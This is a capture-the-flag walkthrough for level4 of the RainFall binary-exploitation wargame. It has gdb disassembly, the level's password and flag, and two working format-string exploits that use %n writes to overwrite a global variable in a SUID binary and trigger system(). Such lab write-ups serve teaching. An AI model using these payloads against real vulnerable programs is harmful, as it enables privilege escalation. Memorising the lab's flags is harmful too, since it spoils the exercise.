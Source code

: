 Login as `level4`.
```shell
┌──$ [~/42/2021/rainfall]
└─>  ssh 192.168.1.28 -p 4242 -l level4
level4@192.168.1.28's password: b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
A `SUID` executable is located in the home directory.
```shell
level4@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
```
Examine defined functions
```gdb
(gdb) info functions
[...]
0x08048444  p
0x08048457  n
0x080484a7  main
[...]
```
Global variable `m` is compared to `0x1025544` value. As it stored in `.bss` section - declared but have not been assigned a value.
```gdb
(gdb) disassemble n
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
```
Here two method to overwrite variable `m` with value `0x01025544`.

The first method, dirty and long, consist in writing 16930116 bytes and use `%n` to write this value (`0x01025544` in Hex) to selected address.
```gdb
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%016930112x%12$n"' | ./level4
000000000000000000000000000000000000000000000000000000000000000000000000000000000000000[...]b7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

The second one, is more creative and faster. It consit in writing in each byte of variable `m` which is lay between `0x08049810` to `0x08049813`.
First of all, those byte addresses where values should be written are putted on stack. Then, the value which should be written is divided by bytes `0x44`, `0x55`, `0x02`, `0x01`. It is done to calculate an offset for each value. This offest value would be a number which will be written in carefully-selected address. As addresses were placed previously, they can be selected using direct parameter access `$`.

0x44 = 68   | 4+4+4+4+x             = 68  (0x44)  : x = 52
0x55 = 85   | 4+4+4+4+52+x          = 85  (0x55)  : x = 17
0x02 = 2    | 4+4+4+4+52+17+x       = 258 (0x102) : x = 173
0x01 = 1    | 4+4+4+4+52+17+173+x   = 513 (0x201) : x = 255

```shell
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "\x11\x98\x04\x08" + "\x12\x98\x04\x08" + "\x13\x98\x04\x08" + "%052x%12$n" + "%017x%13$n" + "%0173x%14$n" + "%0255x%15$n"' | ./level4
00000000000000000000000000000000000000000000b7ff26b0000000000bffff794000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000b7fd0ff4000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
